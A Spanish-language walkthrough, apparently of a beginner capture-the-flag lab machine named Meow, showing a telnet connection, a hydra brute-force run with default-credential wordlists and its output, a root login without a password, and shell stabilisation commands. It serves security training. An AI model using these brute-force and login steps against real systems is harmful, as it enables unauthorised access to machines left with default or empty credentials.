 🗹 Establecer conexión con el servidor a través del servicio **telnet**:

```shell
telnet 10.129.194.222

Trying 10.129.194.222...
Connected to 10.129.194.222.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█


Meow login: 
```

🗹 Realizar ataque de fuerza bruta contra el servicio **telnet**:

```shell
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Default-Credentials/telnet-betterdefaultpasslist.txt 10.129.194.222 telnet

[DATA] attacking telnet://10.129.194.222:23/
[23][telnet] host: 10.129.194.222   login: root   password: NetLinx:password
[23][telnet] host: 10.129.194.222   login: root   password: root:calvin
[23][telnet] host: 10.129.194.222   login: root   password: user:user
[23][telnet] host: 10.129.194.222   login: root   password: localadmin:localadmin
[23][telnet] host: 10.129.194.222   login: root   password: amx:Amx1234!
[23][telnet] host: 10.129.194.222   login: root   password: root:default
[23][telnet] host: 10.129.194.222   login: root   password: amx:password
[23][telnet] host: 10.129.194.222   login: root   password: administrator:Amx1234!
[23][telnet] host: 10.129.194.222   login: root   password: admin:1988
[23][telnet] host: 10.129.194.222   login: root   password: cisco:cisco
[23][telnet] host: 10.129.194.222   login: root   password: root:fidel123
[23][telnet] host: 10.129.194.222   login: root   password: Administrator:Vision2
[23][telnet] host: 10.129.194.222   login: root   password: admin:admin
[23][telnet] host: 10.129.194.222   login: root   password: Root:wago
[23][telnet] host: 10.129.194.222   login: root   password: administrator:password
[23][telnet] host: 10.129.194.222   login: root   password: Admin:wago
```

🗹 Establecer nuevamente la conexión con el servidor a través del servicio **telnet** y cuando pida loguearse ingresar el usuario **root**:

```shell
Meow login: root
```

🗹 Una vez establecida la conexión con el servidor configurar la terminal y personalizar el entorno de la terminal:

```shell
script /dev/null -c bash

ctrl + z

stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty size
stty rows 44 columns 183
```
